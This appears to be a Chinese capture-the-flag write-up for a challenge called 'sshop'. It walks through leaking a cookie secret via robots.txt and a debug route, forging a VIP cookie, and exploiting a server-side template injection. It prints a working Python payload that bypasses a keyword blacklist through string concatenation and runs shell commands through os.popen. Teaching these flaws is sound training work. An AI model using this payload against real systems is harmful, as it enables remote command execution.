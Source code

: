 # sshop

## 解题步骤

在 `robots.txt` 中发现隐藏的路由 `/debugggg`，其中泄露了项目的 `cookie_secret`。构造 cookie 伪造 VIP 用户身份，发现新的“编辑个性资料”功能，尝试发现存在模板注入。  
在模板注入的时候发现存在黑名单，诸如 "{{" "include" "extend" "os" 等等字符串都会被拦截。  
可以通过形如 {% raw *expr* } 的 payload 达到任意命令执行的目的，通过 "o""s" 拼接绕过对 os 的拦截。

最终的 payload：

```
{% raw ().__class__.__base__.__subclasses__()[59].__init__.func_globals.values()[13]["ev""al"]("__imp""ort__(\x27o""s\x27).__dict__[\x27po""pen\x27](\x27cat /home/ctf/flag\x27).read()") %}
```

## 设计思路

- 考查对于信息泄露的相关知识，例如 `robots.txt`、`.git` 目录信息泄露等。
- 了解 secret key 的重要性，一旦泄露可能使得攻击者可以伪造签名，导致后续更严重的后果。
- 了解服务端模板注入及其危害
- 了解黑名单防御是不恰当的防御思路，以及如何绕过

